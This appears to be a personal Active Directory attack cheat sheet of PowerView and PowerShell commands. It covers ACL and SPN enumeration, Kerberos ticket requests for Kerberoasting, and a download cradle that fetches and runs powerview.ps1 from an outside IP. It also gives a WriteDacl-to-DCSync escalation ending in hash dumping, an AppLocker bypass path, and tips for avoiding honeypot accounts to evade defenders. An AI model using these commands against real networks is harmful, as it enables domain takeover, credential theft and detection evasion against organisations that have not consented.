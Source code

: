 ```
Get-ObjectAcl -SamAccountName "IdentityReference" -ResolveGUIDs
```

```
Invoke-ACLScanner | select objectdn,activedirectoryrights,identityreference | fl
```

Look for Passwords in User Descriptions

```
find-userfield -SearchField description "password"
find-userfield -SearchField description "pass"
```

Get SPNs

```
Get-NetComputer | select -expandproperty serviceprincipalname
```

```
get-domainuser -spn | select serviceprincipalname
```

Request Service Ticket

```
Add-Type -AssemblyName System.IdentityModel
```

```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "SomeSPN"
```

* powershell -exec bypass "iex (New-Object Net.WebClient).DownloadString('http://192.168.119.241:8080/powerview.ps1');Get-NetLoggedon -ComputerName DC01"
* Get-DomainGroup -MemberIdentity SomeUser | select samaccountname
* Get-NetComputer | select operatingsystem - gets a list of all operating systems on the domain
* Get-NetUser | select cn - gets a list of all users on the domain
* Get-ADPrincipalGroupMembership "username" | select name
* Get-SmbShare -- lists shares
* Get-NetComputer | select operatingsystem -- show other windows machines OS's
* get-netloggedon -computername name -- can get from systeminfo
* get-netsession -computername name -- can get over the network
* Get-NetDomain
* Get-NetDomainController
* Get-DomainPolicy
* (Get-DomainPolicy)."system access"
* Get-NetUser | select eg select cn, description
* Get-userProperty -Properties pwdlastset

Don't attack accounts with low logoncount because they might be honeypot account. As soon as you compromise it, the security team will be alerted of your presence

```
Get -UserProperty -Properties logoncount
```

* If a group has `WriteDacl` privileges on the Domain. The WriteDACL privilege gives a user the ability to add ACLs to an object. This means that we can add a user to this group and give them `DCSync` privileges.
  1. `net user thescriptkid thescriptkid /add /domain`
  2. `net group groupname thescriptkid /add` -- you may or not need to add the user to another group
  3. `$pass = convertto-securestring 'thescriptkid' -asplain -force`
  4. `$cred = new-object system.management.automation.pscredential('htb\thescriptkid', $pass)`
  5. `Add-ObjectACL -PrincipalIdentity thescriptkid -Credential $cred -Rights DCSync`
  6. Use secretsdump.py to dump hashes and pass the hash or crack
* If `AppLocker` is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: `C:\Windows\System32\spool\drivers\color` - This is whitelisted by default.
* get history commands `cat ~/appdata/roaming/microsoft/windows/powershell/psreadline/consolehost_history.txt`